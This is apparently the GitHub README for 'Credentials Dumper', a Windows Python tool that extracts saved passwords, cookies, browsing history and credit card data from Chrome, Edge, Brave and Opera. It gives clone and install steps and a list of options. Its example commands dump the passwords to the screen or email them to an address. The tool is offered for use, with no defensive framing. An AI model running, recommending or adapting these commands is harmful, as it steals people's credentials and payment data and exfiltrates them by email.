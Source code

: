 # Credentials Dumper
A Tool That Display Browsers Credentials on your terminal
## Supported Os:
* Windows Only

* Linux soon
## Supported Browsers:
| Supported browsers  | Passwords  | Cookies  | History  |  Credit Cards |
| ------------- | ------------- | ------------- | ------------- | ------------- |
| Opera |  ✅ | ✅  | ✅ | ✅
| Chrome |  ✅ | ✅  | ✅ | ✅
| Microsoft Edge |  ✅ | ✅  | ✅ | ✅
| Brave |  ✅ | ✅  | ✅ | ✅
## Usage:
```
git clone https://github.com/SHBBL/Credentials-Dumper.git
pip3 install -r requirements.txt
cd Credentials-Dumper && cd windows
python Credentials_Dumper.py -h
```
### Options:
```
  -h, --help            show this help message and exit
  -browser , --browser  Browser Name: chrome/msedge/brave/opera
  -get , --get          Get:passwords/cookies/history/creditcards
  -send , --send        Select: passwords/cookies/history/creditcards
  -to , --to            Send: passwords/cookies/history/creditcards to email
```
## Example:
### Dump it on screen:
``
python Credentials_Dumper.py -browser msedge -get passwords
``
#### Output:
![alt text](https://github.com/SHBBL/Credentials-Dumper/blob/main/blob/img.jpg?raw=true)

### Send to email:
``
python Credentials_Dumper.py -browser msedge -send passwords -to example@example.com 
``
#### Output:
Check Your spam or inbox
